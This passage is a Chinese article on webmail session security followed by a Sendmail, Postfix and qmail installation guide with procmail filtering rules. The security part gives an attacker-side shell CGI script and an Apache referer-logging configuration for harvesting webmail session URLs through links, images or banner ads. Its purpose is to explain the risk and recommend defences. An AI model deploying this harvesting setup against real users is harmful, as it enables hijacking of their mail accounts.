http://Webmail.21cn.com/extend/gb/std/username/NV0416qxMftyKn0cavGDKt0mIEvPsb/SignOn.gen
```

在关闭浏览器后，保存在服务器里的会话关联数据并不会立即失效，一段时间内Webmail的URL仍然有效，他人只要从浏览器的历史记录里找到该URL，就可以点击进入用户的Webmail，并不需要任何密码验证。所以，用户在退出Webmail时，不应该直接关闭浏览器，应该点击Webmail上的“退出”来退出，这样才会清空会话，使Webmail的URL失效，那些在网吧等公共场所上网的用户尤其要注意这一点。

如果攻击者知道Webmail系统的URL会话机制，能猜到Webmail的会话标识，那么就能找到Webmail的URL，在浏览器地址栏里输入相同的URL，就能轻易地进入用户的Webmail。所以，Webmail系统应该使用较长的、随机的字符串作为会话标识，使攻击者难以猜测。

JavaScript程序中的window.location、location.href、document.URL、document.location、document.referrer等对象属性都可以用来获取Webmail的URL，攻击者只要在HTML邮件中放入一段脚本代码就可以获取URL，并且能偷偷地发送给攻击者，类似的代码可以参考“Cookie会话攻击”一节里的一段演示程序。

HTTP协议（RFC2616）里规定HTTP请求头域“referer”用于指明链接的出处，即指明来自客户端的这个连接请求是从哪个URI地址提交过来的。例如，用户点击页面上的某个链接地址后，发出的referer域的内容就是当前页面的URI地址。CGI编程中的环境变量“HTTP_REFERER”用于获取HTTP请求头域“referer”。下面是一个在Linux下用shell写的CGI程序：

```bash
#!/bin/sh
# set -x
echo Content-type: text/plain
echo
# 写入日志，geturl.log文件权限要可写
echo "`date` $REMOTE_ADDR $HTTP_REFERER" \
>> /var/log/geturl.log
# 即时通知攻击者
wall "`date` 收到Webmail url，请检查日志"
# 返回给客户端的信息，用于迷惑用户
echo "你好！"
```

攻击者把这个CGI程序放在自己的Web服务器上，然后把该CGI程序的URL地址以单独一行放在TXT邮件里发给用户，URL地址会自动变成链接地址，受到欺骗的用户点击后，攻击者就获得了用户Webmail的URL。当然攻击者也可以把CGI程序的URL地址放在HTML邮件里做为链接地址让用户来点击，或者就用脚本程序或框架技术使这个CGI程序自动运行，或者干脆把这个CGI程序的URL地址放在HTML邮件源代码img元素的src属性值，虽然显现不出图片，但这个CGI程序照样会收到HTTP连接请求，从而获得Webmail的URL。

Web服务器的日志记录也能获取referer域的内容，以Apache为例，在httpd.conf文件中修改或加入如下配置参数：

```apache
LogFormat "%t %h %{Referer}i -> %U" referer
CustomLog /usr/local/apache/logs/referer_log referer
```

这样，对Web服务器的每一个HTTP连接请求的referer域的内容都会写到referer_log日志文件里去，攻击者只要分析日志文件，就能够知道用户Webmail的URL了。Webmail系统如果支持HTML邮件的话，总不可能会禁止HTML邮件中使用图像，攻击者在发给用户的HTML邮件中放入一张src地址在自己Web服务器上的图片，也就能轻易地获取Webmail的URL。

这样一来，深怀恶意的攻击者花点小钱去做邮件服务商提供的Webmail旗帜广告，广告的图片则是放在攻击者的Web服务器上，那么攻击者就能每天坐收成千上万用户的Webmail了。

浏览器的漏洞和恶意脚本程序导致了Cookie信息的泄漏。与Cookie信息泄漏不同，URL会话信息被泄漏，则是完全出在HTTP协议上，除非修改HTTP协议。虽然RFC2616里指出referer域是敏感信息（Sensitive Information），建议浏览器提供友好界面让用户能够允许或禁用传输敏感信息域，不过目前尚未有哪一家浏览器提供这样的功能界面。

可见，无论是Cookie会话跟踪还是URL会话跟踪，都存在着不少的安全问题，所以，Webmail系统有必要采取措施加强会话安全。

- 1. **灵活使用会话跟踪技术**：客户端支持Cookie时，使用相对比较安全的临时型Cookie会话跟踪机制；否则，使用URL会话跟踪，JSP等开发程序能很容易做到这一点。
- 2. **结合多种会话跟踪技术**：同时结合Cookie、URL会话跟踪技术进行会话跟踪，大大增加攻击者难度。
- 3. **跟客户端IP地址相结合**：21cn.com、Qmail的SQWebmail等Webmail系统，就是把当前会话与客户端IP地址结合在一起来加强安全的。
- 4. **合理设置会话超时时间**：在一定时间内客户端没有连接请求，则认为会话超时（timeout）。太短了，给用户带来不便；太长了，给攻击者带来方便。

## 七、Webmail 其他安全

如果用户在Webmail里设置了自动回复，攻击者利用这一点，在另一个邮箱里也设置自动回复，并发一封邮件给用户，那么邮件很快就会塞满用户的邮箱，迫使用户不得不取消自动回复，所以，良好的自动回复策略应该是在一定时间内来自同一邮件地址的第二封邮件不应该被自动回复。

攻击者还会在邮件附件中夹带病毒、木马等恶性程序来攻击用户的电脑，甚至用来窃取Webmail密码，所以，对于不明邮件，用户不要奢望那是玫瑰和情书，在对附件进行病毒查杀之前，不要轻易打开它的附件。

为了防止垃圾邮件，Webmail系统应有良好的反垃圾邮件功能：一是系统级的垃圾邮件过滤，对一些被投诉和列入反垃圾邮件组织黑名单的邮件地址进行过滤；二是用户级的垃圾邮件过滤，使Webmail用户可以定制自己的邮件过滤规则，拒绝不受欢迎的邮件，免受垃圾邮件的困扰。

使用一些嗅探监听程序，攻击者甚至不需要很高深的专业知识，就能很轻易地嗅探监听到用户Webmail的密码、邮件内容等。有一个叫“密码监听器”的黑客程序，几乎能监听到国内所有免费邮箱的密码。所以，Webmail系统有必要支持SSL，对浏览器与服务器之间传输的数据进行加密，防止被嗅探监听。

一些Webmail系统支持数字签名和数字加密；在Webmail内可以导入基于公钥加密机制（如CA认证中心颁发的数字证书）产生的公私密钥对，能有效地保证邮件的保密性、完整性和不可抵赖性。不过，鉴于Webmail在其他方面的安全问题，一旦攻击者侵入用户的Webmail，用户反而得不偿失，甚至会导致私钥的泄露。

Webmail系统程序上的漏洞也值得关注，如IMHO Webmail远程账户劫持漏洞、BasiliX Webmail远程任意文件泄露漏洞、W3Mail Webmail执行任意命令漏洞等，甚至21cn.com都曾有过重要路径泄露漏洞。

如果用户在正确使用Webmail后仍然存在安全问题，那么剩下的就是去选择一个好的邮件服务商，或者通过邮件客户端软件来收发邮件。不过，使用Outlook等邮件客户端软件又会引发其它的安全问题，例如爱虫、求职信等病毒就是利用Outlook的漏洞来扩散传播和危害用户的。

### 量身订做邮件服务器

提到邮件，大家一定又会联想到近期的求职信变种。它的发作范围之广，影响之大，相信你已感觉到。这同时也说明了一个现状，随着互联网的发展，电子邮件的使用已经渗透进了生活、学习、办公等各个方面，逐渐有了取代普通信件的趋势。本文从 *nix 系统下讲述了 Sendmail、Postfix、qmail 三种邮件服务器软件的安装配置，读者在看了本文之后，相信可以自己建立一个合适、经济、高效、安全的邮件服务器。

文／书生

#### 几个概念

邮件服务器的一般包括四个模块：邮件传递代理 MTA（Mail Transfer Agent），邮件投递代理 MDA（Mail Delivery Agent），邮件存储和获取代理 MSA（Message Submission Agent）以及邮件客户代理 MUA（Mail User Agent）。MTA 负责和远程邮件服务器连接，接收并传递邮件，使用 SMTP 协议传递电子邮件，而 MUA 实现的只是负责邮件的处理界面，比如阅读、撰写等，然后再把邮件传给 MTA 进行处理。如果 MTA 发现收件人是本地用户，则把邮件传送给 MDA 处理，否则由 MTA 根据消息传送给远程 MTA 处理；同时，本地服务器通过 MTA 得到的邮件，也由 MDA 分拣到各个用户邮箱。MSA 负责获取和存储邮件，用 POP3 和 IMAP 协议管理邮件存储。一般来说，邮件服务器的性能体现在 MTA 这个部分。

#### 设计特点

##### Sendmail

- **整体性：** Sendmail 邮件系统用的是单块的设计结构，用单一的程序就能实现所有的功能。这种结构方便地实现在系统的不同层次部分之间共享数据，从而避免了要创建多个进程以及进程之间通讯所耗费的系统资源。
- **可伸缩性：** Sendmail 特色功能很多，可以通过在配置文件里面定义来增加或者减少这些功能，同时可以方便地使用 m4 命令来生成特色配置文件。作者设计的初衷就是实现一个功能强大的邮件服务器。
- **可移植性：** 由于 Sendmail 邮件系统发展历史比较久，最早是在 BSD 上面实现的，在各种平台比如 Linux、Solaris、AIX 上面都可以简单地移植。
- **稳定性：** 由于 Sendmail 邮件系统的广泛使用，系统的不足之处很快就被发现，从而促进了发布版本的更新速度，使管理员赶快升级当前使用的 Sendmail 服务器到最新版本，同样使得 Sendmail 的安全和稳定性有一定的保证。
- **技术支持：** Sendmail 的用户量大，网上可供参考的资料是最多的。

##### Postfix

- **灵活性：** Postfix 由一打小程序组成，每个小程序只处理特定的任务：通过 SMTP 接收一个信件，通过 SMTP 投递一个信件，本地传送一个信件，重写一个地址等等。有特殊需求的站点可以替换一个或者多个小程序或其他可选择的版本，而且也可以很容易地关闭某个功能。
- **高性能：** Postfix 要比和它类似功能的服务器速度快三倍以上，一个安装 Postfix 的台式机一天可以收发百万个不同的信件。由于使用了多个程序，Postfix 使用了 Web 服务器的技巧以减少创建进程的开销，并且采用了其他的技巧来减少在文件系统上的开销，却不降低软件的可靠性。
- **可靠性：** 在收到确认以前通过调用 `flush` 和 `fsync` 系统调用保存所有的数据到磁盘中，然后检查所有的系统调用的返回结果的状态来避免错误发生。
- **兼容性：** Postfix 设计成兼容 Sendmail，从而使得移植十分容易。
- **保险性和健壮性：** Postfix 被设计成在系统负载过重的时候采取正确的处理方法。当出现本地文件系统没有可用空间或没有可用内存的情况时，Postfix 就会自动中断，而不是重试，使问题变得更严重。当被处理的信件达到特定数目的时候，Postfix 就不会产生新的进程。
- **安全性：** Postfix 使用多层防护措施来保护本地系统不受攻击，几乎每一个 Postfix 守护进程都能运行在固定低权限的 chroot 限制之下，在安全敏感的本地投递程序和网络之间没有直接的路径——一个攻击者不得不首先突破若干个其他的程序，才有可能访问本地系统。Postfix 甚至不绝对信任自己的队列文件或者自己的 IPC 消息中的内容。Postfix 在根据环境变量输出发送者提供的消息之前，会首先过滤消息，最后，没有任何 Postfix 程序 set-uid。
- **多传输域：** 过去作者设置邮件系统可以在 Internet、DECnet、X.400 和 UUCP 之间互相转发，Postfix 被设计成无需虚拟域或者别名就能实现这种转发。
- **虚拟域：** 在大多数通用情况下，增加对一个虚拟域的支持，需要改变的只有一个单独的 Postfix 查找表。其他的邮件服务器通常需要多个级别的别名或重定向来获得这样的效果。
- **UCE 控制：** Postfix 能限制哪个主机允许通过自己转发邮件，并且支持限定什么邮件允许进入。Postfix 实现通常的监察功能：黑名单列表、RBL 查找、HELO/发送者 DNS 查找。
- **表查找：** Postfix 没有实现地址重写语言，而是用表查看的广义用法来替代地址重写功能。表可以是本地 cdbm 或 db 文件、NIS 信息。增加对其他查找机制的支持也相对简单。

##### Qmail

- **安全性：** Qmail 在设计过程中使用了不把程序和文件当地址对待；尽可能少的 set-uid 程序，只有 `qmail-queue` 程序 set-uid，尽量不用 root 身份运行程序，只有两个程序 `qmail-start` 和 `qmail-lspawn` 以 root 的身份执行；把分离的功能放在互不信任的程序中；不对邮件进行分析；尽量保持程序简单。这样就保证了 Qmail 不会让入侵者进入你的机器。
- **可靠性：** Qmail 只有在邮件成功写入磁盘后才返回处理成功的结果，不会丢失信件。
- **速度快：** Qmail 使用新邮件触发投递的方式投递邮件，速度比使用邮件队列的 Sendmail 快很多，而且不会降低可靠性。
- **使用内存少：** Qmail 可以在一台老式 16M 内存的 486 机器上处理很多并发投递。
- **邮件列表：** 用户可以自己控制邮件列表，而不用再去麻烦系统管理员建立。
- **虚拟域：** Qmail 支持多域名，可以容易地实现虚拟主机。
- **直接管理：** 这个使得 Qmail 运行的时候可以减少很多麻烦。
- **灵活的投递程序：** Qmail 提供了强大的和外界邮件系统交互的接口。
- **支持 Maildir 格式：** 利用这个特性，可以轻松地建立一个大容量的分布式邮件服务器。

#### 缺点

##### Sendmail

- 1. 采用 mailbox 格式存储邮件，导致处理大量邮件的时候速度大大降低；
- 2. 对数据库的支持很差，目前必须经过修改才可以使用 mysql，所以可扩展性能差；

- 3. 由于采用单块程序的设计结构，所以各个处理功能之间根本没有隔离，安全性低；
- 4. 由于大量被使用，所以容易成为被攻击的目标，特别是没有及时更新到最新版本的 Sendmail；
- 5. 特色功能多，造成配置文件复杂；
- 6. 在系统负载大的时候，没有良好的保护措施；
- 7. 更新配置的时候，需要停止 SMTP 服务。

##### Postfix

出现得比较晚，相对比较不成熟，相关资料比较少。

##### Qmail

- 1. 不完全支持标准，特别是不支持 7bit 系统标准，在和不同的 MTA 通讯的时候，可能会出现乱码信件；
- 2. 由于设计的时候采用了“接收邮件时不分析”的方法，所以在接收信件的时候，即便用户不存在，也会先把信件收下来，然后再返回错误信息给发送者；
- 3. 同一封信件发送给对方邮件服务器上的多个用户时，要一封一封投递，导致产生多次链接，浪费了网络带宽；
- 4. 一些必要的功能，比如 RBL 等本身不支持，需要 add-ons 来提供。

##### 安装

看完上面的介绍，大家应该对自己要用什么 MTA 有了一个大概的了解了，现在开始看看如何安装一个 MTA。

安装之前有必要说明一下系统的优化问题。一个优秀的操作系统，必须提供了多进程运行的支持，通过合理的选择进程调度算法，可以获得比较好的平均响应时间和较高的系统性能。但是，在 2.2.x 版本的 Linux 内核中，存在对最大进程数的限制，最多只允许有 4090 个用户进程同时存在。

虽然这个数目对于一般的桌面应用是绰绰有余了，但是，对于企业级的服务器应用来说，则是不够的。MTA 一般都采用多进程/线程的结构，每当接到一个连接请求，就产生一个子进程/线程来处理。显然，对于一个用户数量比较大的服务器来说，同时有成千上万个连接是很常见的，因为这个最大进程数的限制的存在，使得采用 2.2.x 内核的 Linux 系统不能胜任企业级邮件服务器的工作，值得庆幸的是，内核 2.4.x 已经解决了这个问题。所以要用 Linux 当邮件服务器的话，要么使用 2.4.x 的内核，要么就要对 2.2.x 的内核进行改造（改造的详细情况可以参考 XteamLinux 主页上面的技术文档）。值得注意的是，Solaris、AIX、HP-UX 等系统没有上述限制。

如果采用 Linux 操作系统，建议采用 2.4.x 的内核，这样能支持 ReiserFS、Ext3 等比较高效的文件系统，修改下列文件来提高系统的同时打开的进程数和文件数上限：

```conf
/etc/security/limits.conf:
*        soft    nproc    8192
*        hard    nproc    16384

/proc/sys/fs/file-max:
200000  （这个就是控制邮件有多少个并发）
```

然后用命令 `ulimit -u unlimited` 来取消对用户最大进程数的软限制。

如果使用 Solaris 系统，没有必要也不太可能修改内核。只需要修改 `/etc/system`，设置一些系统的默认值。一些参考的设置如下：

```conf
set rlim_fd_max=4096
# 决定了一个进程可以打开文件描述符的“硬”限制为 4096
set rlim_fd_cur=1024
# 定义了一个进程可以打开文件描述符的“软”限制，该数目由当前运行的 SHELL 决定
maxusers=40
# 最大用户定义系统可以支持的最大用户数 40
max_nprocs=n
# 系统最大进程数，包含系统进程和用户进程；默认值为 10+(16*MAXUSERS)
maxuprc=n
# 一个用户可以生成的最大用户进程数
```

系统优化完成之后，就可以开始安装邮件系统了。

#### Sendmail 安装及使用经验

Sendmail 是这里提到的三种 MTA 中最方便安装的，主要是因为发展时间长，安装的步骤都在程序中被大大简化了。

最近几年，随着电子邮件的广泛使用，广告信件也由邮寄开始向电子邮件过渡，而且由于电子邮件的方便（有可以连接上网络的电脑就行）、便宜（几乎不用什么费用），同时由于 MTA 设计的时候考虑的是保证发送的便利（设想一下，在一个到处都是邮局的地方寄信是多么方便），所以出现了广告信件到处发的现象，而这些广告信件一般都是没有用的，只会占用服务器的存储空间，所以一般都叫做垃圾邮件。Sendmail 8.9 版本开始出现了一个新功能叫 anti-relay，就是限制没有经过允许的主机不许通过该 MTA 发送信件，一般都只允许内部信任区域内的主机才可以通过该 MTA 发信。但是这样也出现了另外一个问题：合法使用者如果不使用信任区域内的主机，那么该用户将无法发信。如何解决这个问题呢？这个就要涉及身份验证或者发送地址验证了。常用的有两种方法：DRAC（Dynamic Relay Authorization Control 动态转发授权控制），也有叫 pop-before-smtp 的；另外一种方法就是用户身份验证，一般用的是 SASL 身份验证库。

DRAC 是一个守护进程（daemon），原理比较简单，就是在用户发信前，系统要求用户先用 POP 收信，然后根据用户通过 POP 提交的密码来验证用户身份的有效性，然后把该用户的 IP 地址保留到允许转发邮件地址的信息库中，MTA 发送信件的时候访问这个信息库，得到该用户的 IP 地址为有效地址，从而让用户即使由于出差等情况不在本地信任域上也能顺利地发信。特别要注意的是，经过一段时间后，DRAC daemon 会把这个 IP 地址从允许转发邮件地址的信息库中清除，防止这个 IP 地址被非法用户用来转发信件。

SASL（Simple Authentication and Security Layer）是一种很常用的验证机制，这种认证机制其实就是一种“身份 + 密码”的授权方式。这个原理很简单，比如说 SASL 的验证信息库里面有个用户 ABC，他的密码是 123，系统就会认为提交了用户名 ABC 并能提交密码是 123 的用户是 ABC，而不管你的真实身份是 ABC 还是 CBA。使用了 SASL 验证机制的 MTA，就是在用户发信前必须根据用户提交的验证信息，到信息库里面去查询用户名和密码是否符合，如果符合的话，就证明用户经过授权，可以通过该 MTA 发信。

由于 SASL 身份验证库可以给其他软件使用，所以推荐安装 SASL，先到 ftp://ftp.andrew.cmu.edu/pub/cyrus-mail/ 下载 cyrus-sasl，现在的最新版本是 1.5.27，文件是 cyrus-sasl-1.5.27.tar.gz，按照下列步骤安装：

```bash
# tar xvfz cyrus-sasl-1.5.27.tar.gz（如果是 solaris 要先 gunzip cyrus-sasl-1.5.27.tar.gz；然后 tar xvf cyrus-sasl-1.5.27.tar）
# cd cyrus-sasl-1.5.27
# sh ./configure --enable-login --enable-plain
# make
# make install
# cd /usr/lib
# ln -s /usr/local/lib/sasl .
# ln -s /usr/local/lib/libsasl* .
```

由于用 Sendmail 当 MTA，同时要使用系统用户当邮件用户，MTA 要根据 `/usr/lib/sasl/` 下面的 `Sendmail.conf`（注意大小写）的内容来确定怎么读取用户信息，所以我们要修改里面的内容，基于 sysv 的操作系统如 Solaris、Linux 和 BSD 系列的操作系统有所不同：

- Solaris 和 Linux 系统的 `/usr/lib/sasl/Sendmail.conf` 文件内容是 `pwcheck_method: shadow`
- 而 FreeBSD 的 `/usr/lib/sasl/Sendmail.conf` 的内容是 `pwcheck_method: passwd`

经过这个简单的步骤，SASL 就安装到你系统上面了。

为了能让你的邮件系统支持过滤功能，你需要一个好的 MDA 来代替 Sendmail 自带的 `mail.local` 程序，和 Sendmail 配合使用最好的是 Procmail，Sendmail 已经预留了 Procmail 的接口，可以很方便地让两者协同工作。可以通过 http://www.procmail.org/procmail-3.22.tar.gz 或者 ftp://ftp.procmail.net/pub/procmail/procmail-3.22.tar.gz 下载到当前最新版本的 Procmail 3.22。安装 Procmail 比较简单，步骤如下：

```bash
# tar xvfz procmail-3.22.tar.gz
# cd procmail-3.22
```

如果你要修改 Procmail 的安装路径，必须修改 Procmail 安装路径下面 Makefile 里面的 BASENAME 等变量。修改完后执行：

```bash
# make install
```

就把 Procmail 安装到系统上面了。

下面开始安装 Sendmail。

为了安全和得到最新的功能支持，先到 www.sendmail.org 下载最新版本的 Sendmail 安装源码包，当前最新版本是 8.12.3，文件是 `sendmail.8.12.3.tar.gz`，按照下列步骤安装：

由于 8.12.x 版本的 Sendmail 是定义了一个 smmsp 组，使 sendmail 可执行程序的属主是 smmsp 组的 root；同时邮件队列也是属于 smmsp 组的成员 smmsp，而且邮件队列定义了组可写。Sendmail 由 root 启动，以用户 smmsp 的身份运行，这样避免了很多安全方面的问题。所以，首先我们必须建立一个 smmsp 组，而且这个组必须有个成员 smmsp，sendmail.org 建议 smmsp 的组 gid 是 25，用户 uid 是 25，而且 smmsp 不需要一个实际存在有效的 shell，所以用下列命令建立这个组和用户：

```bash
#groupadd -g 25 smmsp
#useradd -g 25 -u 25 -s /bin/true smmsp
```

开始安装 Sendmail：

```bash
#mv sendmail.8.12.3.tar.gz /usr/local/src
#tar xvfz Sendmail.8.12.3.tar.gz（solaris 的话还是要先 gunzip Sendmail.8.12.3.tar.gz 然后 tar xvf sendmail.8.12.3.tar）
#cd sendmail-8.12.3
#cd devtools
#cd Site
#vi site.config.mc
```

这个文件的内容是：

```text
PREPENDDEF(`confMAPDEF', `-DMAP_REGEX')

PREPENDDEF(`confOPTIMIZE', `-O9 -funroll-loops -ffast-math -malign-double -mcpu=pentiumpro -march=pentiumpro -fomit-frame-pointer -fno-exceptions')
```

# 上面这行是针对使用 Pentium II/III（i686）系列 CPU 的 Linux 进行优化
# 对于 Pentium（i586）处理器，最优编译选项为：

```text
PREPENDDEF(`confOPTIMIZE', `-O3 -march=pentium -mcpu=pentium -ffast-math -funroll-loops -fomit-frame-pointer -fforce-mem -fforce-addr -malign-double -fno-exceptions')
```

# 对于 i486 处理器，最优编译选项：

```text
PREPENDDEF(`confOPTIMIZE', `-O3 -funroll-all-loops -malign-double -mcpu=i486 -march=i486 -fomit-frame-pointer -fno-exceptions')
```

# 如果是 solaris 的话为 `PREPENDDEF(`confOPTIMIZE', `-g -O3')`，OPTIMIZE 是编译的时候传递给 gcc 的参数。
# -O9 是最高级的优化，编译的时候要花很长时间，并且会增加可执行文件的大小，但是也会提高可执行文件执行的速度。

# 下面的定义让 Sendmail 支持 TCP_wrapper 和 SASL 身份验证，TCP_wrapper 就是用 /etc/hosts.allow 和 /etc/hosts.deny 来控制登录的机制，如果机器上面没有装 TCP_wrapper 就去掉和 TCP_wrapper 有关的东西

```text
APPENDDEF(`confENVDEF', `-DTCPWRAPPERS -DSASL')
APPENDDEF(`conf_sendmail_LIBS', `-lwrap -lsasl')
APPENDDEF(`confLIBDIRS', `-L/usr/local/lib -L/usr/local/lib/sasl')
APPENDDEF(`confINCDIRS', `-I/usr/local/include -I/usr/local/include/sasl')
```

然后准备编译 Sendmail。编译之前，如果系统本来有运行有其他版本的 Sendmail，就要把它们停掉，不然安装不会成功，停止的方法是：

```bash
# ps -ef|grep sendmail 找到 sendmail 进程的 pid，然后用 kill -9 pid 来停止 Sendmail。
```

现在开始编译 Sendmail：

```bash
# cd /usr/local/src/sendmail-8.12.3
# ./Build -c -f /usr/local/src/sendmail-8.12.3/devtools/Site/site.config.mc
# ./Build install
```

这样就把 Sendmail 安装到你系统上面了。

接下来要生成 sendmail 的配置文件：

```bash
# cd /usr/local/src/sendmail-8.12.3/cf/cf
# cp generic-linux.mc sendmail.mc
# 如果是 solaris 就用 generic-solaris.mc
# 如果是 FreeBSD 就用 generic-bsd4.4.mc
# 修改 sendmail.mc，去掉里面的 MAILER(local)dnl，因为这个和下面要用的 procmail 还有 smrsh 互斥，然后添加一行 define('confDEF_USER_ID', '25:25') 让 Sendmail 用 smmsp 的身份运行。
```

```bash
#cd ../feature
#cat access_db.m4 >> ../cf/sendmail.cf
#cat local_procmail.m4 >> ../cf/sendmail.cf
#cat smrsh.m4 >> ../cf/sendmail.cf
#cat delay_checks.m4 >> ../cf/sendmail.cf
#cat virtusertable.m4 >> ../cf/sendmail.cf
#cat blacklist_recipients.m4 >> ../cf/sendmail.cf
#cat accept_unresolvable_domains.m4 >> ../cf/sendmail.cf
```

最后在 `sendmail.cf` 尾部添加两行：

```text
TRUST_AUTH_MECH(`LOGIN PLAIN')dnl
define(`confAUTH_MECHANISMS', `LOGIN PLAIN')dnl
```

使得 Sendmail 能使用这两个验证机制。然后执行下面的命令生成可以被 Sendmail 使用的配置文件：

```bash
#cd /usr/local/src/sendmail-8.12.3/cf/cf
#./Build sendmail.cf
#cp sendmail.cf /etc/mail/
```

上面使用了 smrsh 这个 Sendmail 受限 shell 来加强 Sendmail 的安全性，smrsh 通过 `/etc/smrsh` 目录来明确指定 Sendmail 所有可以执行的文件是什么。简单地说，即便有人可以使 Sendmail 不通过别名文件和转发文件来运行其他程序，由于 smrsh 限制了它可以执行的程序集，所以，可以把破坏限制在极小的范围内。现在我们来指定 Sendmail 可以执行什么程序：

```bash
#cd /etc
#mkdir smrsh
#cd smrsh
#ln -s /bin/mail mail
#ln -s /usr/bin/procmail procmail
```

最后要建立 Sendmail 可识别格式的一些控制文件：

```bash
#cd /etc
#cd mail
```

然后要建立几个文件：控制 IP 访问权限的 `access`；定义本地可接收邮件的域名的 `local-host-names`；定义用户别名的 `aliases`；定义虚拟用户表的 `virtusertable`；定义域名访问权限的 `relay-domains`。

由于使用的是 SASL 身份验证，所以只要允许本机能不经过验证发信，那么，`access` 文件的内容应该是：

```text
127.0.0.1    RELAY
本机IP       RELAY
```

假设机器有三个域名 `a.com`、`b.com`、`c.com`，但是我只要接收发往 `a.com` 和 `b.com` 的信，那么 `local-host-names` 文件的内容是：

```text
a.com
b.com
```

而 `aliases` 文件就好用了，你可以设置这样一个 `aliases` 文件的内容：

```text
root:    test1
test:    test1, test2
```

由于某些限制，`root` 是不能通过 POP3 协议来取信的，通过这个方法，就能把发给 `root` 的信定向给用户 `test1`。另外一行的含义是：把发给 `test` 的信同时都发送给 `test1` 和 `test2`，这样就无需借助邮件列表而可以实现一个简单的分组功能了。

和建立 `access` 文件的原因一样，`relay-domains` 里面的内容是：

```text
a.com    RELAY
b.com    RELAY
```

`virtusertable` 是备用的，一般可以留空。建立起这几个文件以后，就要把它们转化成 Sendmail 可以识别的格式：

```bash
#makemap hash /etc/mail/access.db < /etc/mail/access
#makemap hash /etc/mail/virtusertable.db < /etc/mail/virtusertable
#newaliases
```

这些文件弄完后，执行 `sendmail -d0.1 -bv root | grep SASL`，如果结果类似 `NAMED_BIND NETINET NETUNIX NEWDB PIPELINING SASL SCANF` 就表明已经成功了。

为了加强邮件系统安全，建议取消 `EXPN` 和 `VRFY` 功能，这就需要修改 `/etc/mail/sendmail.cf` 里面定义的 `PrivacyOptions`。查找到包含 `PrivacyOptions` 的内容，一般开始是：

```text
O PrivacyOptions=authwarnings
```

## Hiding Sendmail Information

为了隐藏邮件服务器的信息，也可以在 sendmail.cf 里面做修改。查找到包含 `SmtpGreetingMessage` 的内容，一般开始是：

```conf
O SmtpGreetingMessage=$j Sendmail $v/$Z; $b
```

修改成：

```conf
O SmtpGreetingMessage=$j;$b
```

然后再修改 `/etc/mail/helpfile`，清除以 smtp 开头的行，修改如下：

```text
smtp    Topics:
smtp    HELO EHLO MAIL RCPT DATA
RSET NOOP QUIT HELP
.smtp   VERB ETRN DSN
smtp    For more info use "HELP <topic>"
```

这样就能隐藏你的 MTA 是什么、MTA 的版本等信息，避免不必要的麻烦。

Sendmail 的一些缺省的连接选项对于桌面应用来说没有什么问题，但是到了连接数多的时候就应付不过来了，所以我们要修改 sendmail.cf 里面相应的选项来加大 Sendmail 的吞吐量。这些项目是：

- 最大发送负载 `QueueLA=n`（n 介于 30 到 50，CPU 性能越好可以越高，但是最好不要超过 50，Sendmail 的缺省值是 12 × CPU 数目）
- 最大接收负载 `RefuseLA=n`（n 的取值同上）
- 最大子进程数 `MaxDaemonChildren=8000`（这个值取大点好，机器性能越好可以越高）
- 每秒最大连接数 `ConnectionRateThrottle=8000`（这个值也是取大一点好）
- 队列最大值 `MaxQueueRunSize=n`（n 的取值看机器性能，性能好的可以多一点，一般是 10 到 100 之间）

最后，用 `/usr/sbin/sendmail -bd` 来启动 Sendmail。

MTA 跑起来以后，就可以开始收发邮件了；但是总是有些不如意的事，比如老是有人给你发一些无聊的广告信或者病毒邮件肆虐，这些对你的用户的影响都很大。如何减少类似事情的发生呢？装一个专业的防垃圾邮件防病毒软件是一个选择。另外，我们也可以用 Procmail 来进行简单的邮件标题和内容过滤。

Procmail 可以分拣你收到的信到特定的目录，预处理你的信件，在你有新邮件到的时候启动某个程序或者有选择地自动转寄收到的信件到某个信箱。下面简单介绍一下它的使用方法。

Procmail 是根据 `/etc/procmailrc` 这个文件（如果存在的话）里面定义的规则来处理所有用户的信件，如果是系统用户，它还可以根据用户主目录下面的 `.procmailrc` 的规则来处理这个用户的信件。

Procmailrc 里面的每条规则都是以 `:0` 开头，采用下面的格式：

```text
:0 标志
<零个或者多个条件（每个一行）>
<动作>
```

常用的标志是：

- `H`：调用 Egrep（处理字符串的工具）匹配信件头，这个是缺省值；
- `B`：调用 Egrep 匹配信件体；
- `D`：让 Egrep 处理的时候对大小写敏感（缺省情况是不敏感）；
- `A`：如果此规则前面最近执行的规则没有 `A` 或者 `a` 标志，就执行此规则；
- `a`：如果此规则前面最近的规则被执行，就执行此规则；
- `E`：如果此规则前面最近的没有 `E` 或者 `e` 标志的规则没有被执行，就执行此规则；
- `e`：如果此规则前面最近的规则没有被执行，就执行此规则；
- `h`：通过管道传送邮件头（缺省值）；
- `b`：通过管道传送邮件体（缺省值）；
- `f`：把管道当成过滤器；
- `c`：生成邮件的一个副本；
- `r`：不对邮件进行任何处理。

每个条件都以 `*` 开头进行字符串匹配，条件中有下面的定义：

- `!`：在条件中表示不包含字符串内容；
- `^`：表示以该字符串开头；
- `$`：表示以该字符串结尾；
- `.`：表示任意字符，除了新行；
- `a*`：表示零个或者多个 `a`；
- `a+`：表示一个或者多个 `a`；
- `a?`：表示零个或者一个 `a`；
- `[^-a-d]`：表示除了 `-` 号，`a`，`b`，`c`，`d`，新行以外的字符；
- `de|abc`：表示字符串 `abc` 或者 `de`；
- `(abc)*`：表示零个或者多个 `abc` 字符串；
- `\.`：表示“.”号（因为“.”号有特别意义，需要用转义符）。

动作部分是以下面几个字符开头：

- `!`：把特定的部分转寄给某个信箱（如前面的标志项是用 `h` 传送邮件头，则只转寄邮件头）；
- `|`：把特定的部分用管道当作参数传送给后面的程序处理；
- `{}`：定义一个动作命令块；
- 任意字符串：把特定部分存储为以这个字符串为名字的文件中，如文件存在，则添加在文件尾部。不详细的地方可以 `man procmailrc` 来参考。

知道了规则如何定义以后，现在看看如何使用这些规则吧：

例子 1：拒收特定地址 spam.com 发送来的邮件。

```text
:0 H
* ^From:.*spam.com
# 用 .* 的原因是因为不同的 MUA 完成的信件头部会有所差异
/dev/null
```

例子 2：转发特定用户 friend@a.com 发来的信件给 me@b.com。

```text
:0 H
* ^From:.*friend@a.com
{
  :0 c
  ! me@b.com
}
```

例子 3：拒收特定标题的邮件（例如标题上有“广告”等字）。

```text
:0 H
* ^Subject:.*广告
/dev/null
```

下面是一个综合应用过滤含有 nimda 病毒邮件的例子：

```text
mydate=`date +%Y%m%d%H%M%S`
# 定义一个变量，方便记录
:0 BH
* name="readme.exe"
# 附件是 readme.exe
* !^X-loop
# 有特定标志的信件就不处理了
{
  :0 hc
  | (formail -r -A From: "X-loop"; cat /etc/AlertMsg/RetVirus) | /usr/lib/sendmail -t
